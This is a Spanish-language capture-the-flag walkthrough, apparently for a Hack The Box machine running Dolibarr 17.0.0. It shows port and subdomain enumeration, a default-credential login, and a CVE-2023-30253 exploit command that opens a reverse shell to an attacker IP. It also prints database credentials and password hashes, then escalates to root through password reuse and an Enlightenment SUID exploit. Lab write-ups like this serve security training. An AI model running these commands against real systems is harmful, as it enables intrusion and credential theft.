
Enumeración
Escaneo de puertos:
nmap -p- --open --min-rate 5000 -vvv -sS 10.10.11.11
Host is up, received user-set (0.28s latency).
Scanned at 2024-07-08 16:11:07 -03 for 17s
Not shown: 65379 closed tcp ports (reset), 154 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT STATE SERVICE REASON
22/tcp open ssh syn-ack ttl 63
80/tcp open http syn-ack ttl 63
Detectamos versión y servicio de los puertos abiertos:
nmap -sCV -p22,80 10.10.11.11
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 06:2d:3b:85:10:59:ff:73:66:27:7f:0e:ae:03:ea:f4 (RSA)
| 256 59:03:dc:52:87:3a:35:99:34:44:74:33:78:31:35:fb (ECDSA)
|_ 256 ab:13:38:e4:3e:e0:24:b4:69:38:a9:63:82:38:dd:f4 (ED25519)
80/tcp open http Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

En el mail vemos el dominio board.htb, por lo que vamos a agregar esta entrada en nuestro /etc/hosts.
Intentamos hacer fuzzing de directorios pero no encontramos nada interesante:
gobuster dir -u http://board.htb/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50

Intentaremos buscar subdominios, en este caso, utilizando wfuzz:
wfuzz -c --hc=404 --hh=15949 -t 20 -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.board.htb" http://board.htb

Agregamos a nuestro /etc/hosts este nuevo subdominio encontrado: crm.board.htb
Si ingresamos por web, vemos el siguiente panel de login:

Si buscamos credenciales por default, vemos que son admin / admin. Probamos acceder pero vemos lo siguiente:

Si bien tenemos acceso, notamos que no tenemos todos los permisos. Los mismos pueden ser otorgados por el administrador Dolibarr.
Intrusión
Vamos a buscar exploits para Dolibarr 17.0.0 que es la versión que nos muestra en el panel de login.
Vemos que existe una vulnerabilidad asociada al CVE-2023-30253 que nos permite ejecutar código. Vamos a usar el siguiente exploit:
Lo descargamos y vemos que para ejecutarlo debemos especificar lo siguiente:

Por lo tanto, nos ponemos a la escucha con netcat en el puerto 443 y lo corremos de la siguiente manera:
python3 exploit.py http://crm.board.htb admin admin 10.10.14.9 443

Hacemos un tratamiento de la TTY. Desde aquí, vemos que a nivel de sistema existe otro usuario que se llama larissa, pero no tenemos permiso a su directorio.

Navegando los distintos directorios, damos con el archivo conf.php dentro del directorio /var/www/html/crm.board.htb/htdocs/conf. Aquí tenemos datos para la conexión a la BD:
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
$dolibarr_main_db_type='mysqli';
$dolibarr_main_db_character_set='utf8';
$dolibarr_main_db_collation='utf8_unicode_ci';
// Authentication settings
$dolibarr_main_authentication='dolibarr';
Utilizando esas credenciales, nos conectamos de la siguiente manera al MySQL
mysql -u dolibarrowner -p -D dolibarr

Jugando un poco con las BD, realizamos la siguiente consulta para obtener datos interesantes:
select admin,login,pass_crypted,lastname from llx_user;
dolibarr : $2y$10$VevoimSke5Cd1/nX1Ql9Su6RstkTRe7UX1Or.cm8bZo56NjCMJzCm
admin : $2y$10$gIEKOl7VZnr5KLbBDzGbL.YuJxwz5Sdl5ji3SEuiUSlULgAhhjH96
Intento utilizar jhon para descifrar los hashes pero sin éxito. A su vez, intento realizar un Brute Force con Hydra al puerto SSH utilizando el usuario larissa pero tampoco tengo éxito.
Se me ocurre probar con las siguientes credenciales, ya que son las únicas válidas que tengo a través del SSH:
Usuario: larissa
Contraseña: serverfun2$2023!!
Son correctas y estoy dentro!

Desde aquí ya podemos ver la primer flag:

Escalación de privilegios
Vamos a utilizar LinEnum para enumerar el sistema.
Lo pasamos a la máquina víctima y lo ejecutamos. Dentro de todo el output, vemos en los permisos SUID, los binarios relacionados a enlightenment:

Investigando, vemos que existe una vulnerabilidad que nos permite escalar privilegios. Vamos a usar el siguiente repositorio. Lo pasamos a la máquina víctima:

Lo ejecutamos y somos root:

Podemos ver la segunda flag:
